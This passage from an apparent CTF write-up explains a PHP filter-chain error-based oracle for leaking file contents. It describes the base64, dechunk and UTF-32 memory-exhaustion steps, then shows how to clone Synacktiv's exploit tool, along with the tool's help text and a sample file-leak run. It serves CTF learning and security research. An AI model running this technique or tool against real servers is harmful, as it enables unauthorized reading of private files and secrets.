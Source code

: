 Hmm... That's interesting, because base64 encoding character set is similar to hexadecimal number.

So, maybe we can leak the content of a file via:

- Base64 encode the file using the `convert.base64-encode` function;
- Apply the dechunk filter;
- Blow up (Exceed the memory limit) the string multiple times using a `latin1` to `UTF-32` conversion.
- If we don't get "Not allowed" response output, the file contents in base64 encoding is started with one of the hexadecimal number. Otherwise, it's not started with hexadecimal number, like `g-zG-Z`.

Unfortunately the full details of leaking the file content is far, far more complicated. If you're interested, you can dive deeper to it from the [blog post written by Synacktiv](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle).

Although the research post has linked the original DownUnderCTF 2022 challenge’s [solution script](https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py), **I found that the Synacktiv's [php_filter_chains_oracle_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit) tool is much better**.

**Let's download the tool!**
```shell
┌[siunam♥Mercury]-(/opt)-[2024.02.12|14:15:54(HKT)]
└> git clone https://github.com/synacktiv/php_filter_chains_oracle_exploit.git
Cloning into 'php_filter_chains_oracle_exploit'...
remote: Enumerating objects: 61, done.
remote: Counting objects: 100% (61/61), done.
remote: Compressing objects: 100% (38/38), done.
remote: Total 61 (delta 25), reused 49 (delta 13), pack-reused 0
Receiving objects: 100% (61/61), 13.71 KiB | 2.74 MiB/s, done.
Resolving deltas: 100% (25/25), done.
┌[siunam♥Mercury]-(/opt)-[2024.02.12|14:15:58(HKT)]
└> cd php_filter_chains_oracle_exploit 
┌[siunam♥Mercury]-(/opt/php_filter_chains_oracle_exploit)-[2024.02.12|14:16:32(HKT)]-[git://main ✔]
└> python3 filters_chain_oracle_exploit.py --help
usage: filters_chain_oracle_exploit.py [-h] --target TARGET --file FILE --parameter PARAMETER
                                       [--data DATA] [--headers HEADERS] [--verb VERB]
                                       [--proxy PROXY] [--in_chain IN_CHAIN]
                                       [--time_based_attack TIME_BASED_ATTACK] [--delay DELAY]

        Oracle error based file leaker based on PHP filters.
        Author of the tool : @_remsio_
        Trick firstly discovered by : @hash_kitten
        ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        $ python3 filters_chain_oracle_exploit.py --target http://127.0.0.1 --file '/test' --parameter 0   
        [*] The following URL is targeted : http://127.0.0.1
        [*] The following local file is leaked : /test
        [*] Running POST requests
        [+] File /test leak is finished!
        b'SGVsbG8gZnJvbSBTeW5hY2t0aXYncyBibG9ncG9zdCEK'
        b"Hello from Synacktiv's blogpost!\n"
        

options:
  -h, --help            show this help message and exit
  --target TARGET       URL on which you want to run the exploit.
  --file FILE           Path to the file you want to leak.
  --parameter PARAMETER
                        Parameter to exploit.
  --data DATA           Additionnal data that might be required. (ex : {"string":"value"})
  --headers HEADERS     Headers used by the request. (ex : {"Authorization":"Bearer [TOKEN]"})
  --verb VERB           HTTP verb to use POST(default),GET(~ 135 chars by default),PUT,DELETE
  --proxy PROXY         Proxy you would like to use to run the exploit. (ex : http://127.0.0.1:8080)
```